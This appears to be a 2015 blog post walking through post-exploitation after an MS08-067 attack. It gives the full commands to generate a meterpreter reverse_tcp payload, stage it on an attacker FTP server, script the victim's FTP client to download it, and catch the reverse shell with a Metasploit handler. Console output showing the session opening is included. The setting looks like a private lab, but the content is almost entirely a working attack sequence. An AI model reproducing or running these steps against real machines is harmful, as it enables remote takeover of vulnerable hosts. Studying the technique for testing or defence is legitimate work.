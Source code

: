 ```yaml
---
published: true
layout: post
title: Meterpreter up and running post exploitation
date: "2015-06-05"
description: "Meterpreter up and running post exploitation"
categories:
    - "ftp"
    - "exploit"
    - "msfconsole"
---
```




I've exploited MS08-067 without metasploit.  After exploitation I use metasploit's meterpreter.  

**Attacker**:  Start the ftp service on my attacking machine

    service pure-ftpd start

**Attacker**:  Create a payload to connect back to my attacking machine's listening meterpreter and save it to my ftp directory

    msfpayload windows/meterpreter/reverse_tcp lhost=192.168.30.36 lport=443 X > /ftphome/iambad.exe
    
**Victim**:  Exploit MS08-067 refer to 

http://dmittakarin8.github.io/Exploiting-MS08067-wo-Metasploit/

**Victim**:  FTP is installed on the server.  FTP is not interactive, so create a text file to pass to the ftp application.  I issue the following commands.  *Note the lack of spaces after the echo command*:

    echo open 192.168.30.36> ftp.txt
    echo your_username>> ftp.txt
    echo your_password>> ftp.txt
    echo binary>> ftp.txt
    echo get iambad.exe>> ftp.txt
    echo bye>> ftp.txt

**Victim**:  Execute the ftp command passing the ftp.txt as a parameter

    ftp -s:ftp.txt

**Attacker**:  Start msfconsole on attacking machine

    msfconsole
    
**Attacker**:  Start multi/handler, set LHOST, set LPORT, and start handler

    msf > use exploit/multi/handler
    msf exploit(handler) > set LHOST 192.168.30.36
    msf exploit(handler) > set LPORT 443
    msf exploit(handler) > run
    [*] Started reverse handler on 192.168.30.36:443 
    [*] Starting the payload handler...
    
**Victim**:  Execute payload

    iambad.exe

**Attacker**:  Meterpreter session obtained

    [*] Sending stage (770048 bytes) to 192.168.31.205
    [*] Meterpreter session 1 opened (192.168.30.36:443 -> 192.168.31.205:2707) at 2015-06-05 08:06:04 -0400
